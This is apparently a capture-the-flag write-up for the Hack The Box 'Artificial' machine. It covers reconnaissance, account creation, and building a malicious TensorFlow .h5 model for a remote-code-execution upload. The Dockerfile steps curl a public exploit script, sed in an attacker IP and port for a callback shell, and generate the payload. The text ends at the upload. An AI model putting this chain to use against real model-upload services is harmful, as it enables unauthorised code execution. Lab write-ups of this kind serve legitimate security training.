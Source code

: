 I find a webserver with nmap:
```
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-title: Artificial - AI Solutions
|_http-server-header: nginx/1.18.0 (Ubuntu)
```

I also find a few paths with gobuster:
```
/dashboard            (Status: 302) [Size: 199] [--> /login]
/logout               (Status: 302) [Size: 189] [--> /]
/login                (Status: 200) [Size: 857]
/register             (Status: 200) [Size: 952]
```

I get more informations with nikto:
```
+ HEAD nginx/1.18.0 appears to be outdated (current is at least 1.20.1).
```

And even more informations with whatweb:
```
Summary   : HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], Matomo, nginx[1.18.0], Script
```

I decide to create a new account:
```
POST /register HTTP/1.1
Host: artificial.htb
Content-Length: 67
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://artificial.htb
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://artificial.htb/register
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

username=random4321&email=random4321%40mail.net&password=random4321
```
Then, I log in using the previously created account:
```
POST /login HTTP/1.1
Host: artificial.htb
Content-Length: 47
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://artificial.htb
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://artificial.htb/login
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

email=random4321%40mail.net&password=random4321
```

I get a dashboard:
```
GET /dashboard HTTP/1.1
Host: artificial.htb
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://artificial.htb/login
Accept-Encoding: gzip, deflate, br
Cookie: session=eyJ1c2VyX2lkIjo3LCJ1c2VybmFtZSI6InJhbmRvbTQzMjEifQ.aJZgPw.oEFDyLs3mb8ucwx9O6sCQaq7uY4
Connection: keep-alive
```

Once logged in, I also get a JWT token:
```
{
  "user_id": 7,
  "username": "random4321"
}
```

I decide to look at the dashboard source code:
```
<main>
    <section class="dashboard-section">
        <h2>Your Models</h2>
        <p style="color: black;">Upload, manage, and run your AI models here.</p>
        
        <!-- Warning message for TensorFlow version -->
        <p class="version-warning">Please ensure these <a href="/static/requirements.txt">requirements</a> are installed when building your model, or use our <a href="/static/Dockerfile">Dockerfile</a> to build the needed environment with ease.  </p>

        <!-- Upload form -->
        <form id="upload-form" enctype="multipart/form-data" action="/upload_model" method="POST">
            <input type="file" name="model_file" accept=".h5" class="file-input" required="">
            <button type="submit" class="btn" style="color: white;">Upload Model</button>
        </form>

        <!-- List models -->
        <ul class="model-list">
            
        </ul>
    </section>
</main>
```


I find 2 files, requirements.txt (python dependencies file):
```
tensorflow-cpu==2.13.1
```

And a Dockerfile that download the same package during the build phase:
static/Dockerfile content:
```
FROM python:3.8-slim

WORKDIR /code

RUN apt-get update && \
    apt-get install -y curl && \
    curl -k -LO https://files.pythonhosted.org/packages/65/ad/4e090ca3b4de53404df9d1247c8a371346737862cfe539e7516fd23149a4/tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl && \
    rm -rf /var/lib/apt/lists/*

RUN pip install ./tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl

ENTRYPOINT ["/bin/bash"]
```

This looks like it can be used with the example python code I found on home page earlier to generate a h5 model to upload:
```
import numpy as np
import pandas as pd
import tensorflow as tf
from tensorflow import keras
from tensorflow.keras import layers

np.random.seed(42)

# Create hourly data for a week
hours = np.arange(0, 24 * 7)
profits = np.random.rand(len(hours)) * 100

# Create a DataFrame
data = pd.DataFrame({
    'hour': hours,
    'profit': profits
})

X = data['hour'].values.reshape(-1, 1)
y = data['profit'].values

# Build the model
model = keras.Sequential([
    layers.Dense(64, activation='relu', input_shape=(1,)),
    layers.Dense(64, activation='relu'),
    layers.Dense(1)
])

# Compile the model
model.compile(optimizer='adam', loss='mean_squared_error')

# Train the model
model.fit(X, y, epochs=100, verbose=1)

# Save the model
model.save('profits_model.h5')
```

After some digging on the web I find this RCE for Tensorflow 2.13.1: `https://github.com/Splinter0/tensorflow-rce`

I add this to the `Dockerfile` build phase:
```
# Download exploit to generate a malicious h5 model containing a payload
RUN curl -O https://raw.githubusercontent.com/Splinter0/tensorflow-rce/refs/heads/main/exploit.py

# Replace the attacker IP and port
RUN sed -i 's/127.0.0.1/10.10.14.9/g' exploit.py && sed -i 's/6666/4444/g' exploit.py

# Generate the malicious h5 model containing the payload
RUN python exploit.py
```

Then, I use the `Dockerfile` to build and create a container containing the malicous h5 model with the payload.
#### generate-payload.sh
```
#!/bin/bash

# Enable and start Docker service
sudo systemctl enable docker.service && sudo systemctl start docker.service

# Build image (and generate payload)
sudo docker build -t generate-h5-payload .

# Run container
sudo docker run generate-h5-payload

# Get container id
CONTAINER_ID=$(sudo docker container ls -aq --filter "ancestor=generate-h5-payload")

# Download payload from container
sudo docker cp $CONTAINER_ID:/code/exploit.h5 ./exploit.h5
```

Once that's done, I upload the exploit:
